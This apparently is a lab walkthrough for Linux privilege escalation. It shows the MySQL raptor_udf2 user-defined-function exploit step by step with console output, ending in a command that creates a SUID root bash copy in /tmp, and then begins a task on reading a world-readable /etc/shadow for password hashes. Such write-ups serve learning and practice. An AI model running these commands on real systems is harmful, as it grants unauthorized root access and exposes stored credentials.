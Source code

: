 
we got into root user now 

we need to execute some commands on SQL database to exploit 

use mysql;

create table foo(line blob);

insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

create function do_system returns integer soname 'raptor_udf2.so';

```bash
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.02 sec)

mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

```

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.00 sec)

```

This Commands is used to copy and change permission of `/tmp/rootbash` 

Task 3:Weak File Permissions - Readable /etc/shadow

in this as we Know that passwords are stored in /etc/shadow file 

so task is to view and passwd and hashes of it

```bash
ls -l  /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```
